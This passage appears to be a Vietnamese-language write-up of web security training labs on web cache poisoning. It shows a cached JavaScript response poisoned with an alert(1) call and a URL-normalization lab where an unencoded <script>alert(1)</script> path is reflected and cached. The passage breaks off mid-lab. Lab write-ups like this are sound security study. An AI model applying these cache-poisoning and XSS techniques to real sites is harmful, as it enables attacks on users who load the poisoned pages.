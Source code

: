 ```http
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 3
X-Cache: hit
Content-Length: 193

const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
alert(1)({"country":"United Kingdom"});
```

- **Reload page** => **XSS** xảy ra

#### Why?
- **Caching layer** không kiểm tra `method` hoặc `body`.
- **Server-side framework** xử lý **body** trong **GET** (không đúng chuẩn `HTTP/1.1`).
- Không phân biệt rõ giữa `query param` và `form param`.

### Lab: URL normalization
#### Analysis
- Thử gửi **GET request** đến **endpoint** bất kì => **reflected HTML**

```http
GET /xnxx HTTP/2
Host: 0adf00e104e88c10803d1cf9008c009c.web-security-academy.net
```

```http
HTTP/2 404 Not Found
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=10
Age: 0
X-Cache: miss
Content-Length: 23

<p>Not Found: /xnxx</p>
```

- Thử inject **XSS payload** chưa **encode URL**

```http
GET /xnxx<script>alert(1)</script> HTTP/2
Host: 0adf00e104e88c10803d1cf9008c009c.web-security-academy.net
```

```http
HTTP/2 404 Not Found
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=10
Age: 5
X-Cache: hit
Content-Length: 48

<p>Not Found: /xnxx<script>alert(1)</script></p>
```
- **XSS** xảy ra, có thể **cache** nhưng chỉ `10s`
- Thử truy cập bằng trình duyệt `https://0adf00e104e88c10803d1cf9008c009c.web-security-academy.net/xnxx<script>alert(1)</script>`
